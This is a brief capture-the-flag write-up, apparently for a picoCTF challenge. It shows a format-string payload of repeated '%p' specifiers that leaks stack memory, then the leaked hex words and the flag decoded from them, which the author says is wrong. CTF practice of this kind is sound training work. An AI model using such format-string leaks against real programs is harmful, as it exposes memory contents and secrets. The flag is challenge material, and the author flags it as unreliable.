 Exploit: "%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"


This prints the contents of the stack as a pointer ie 8 byte in little endian format

    0x7b4654436f636970 0x355f31346d316e34 0x3478345f33317937 0x34365f673431665f 0x7d363131373732 0x70

Converting this from hex to string 

    picoCTF{4n1m41_57y13_4x4_f14g_64p277116}

(But this is wrong for some reason)
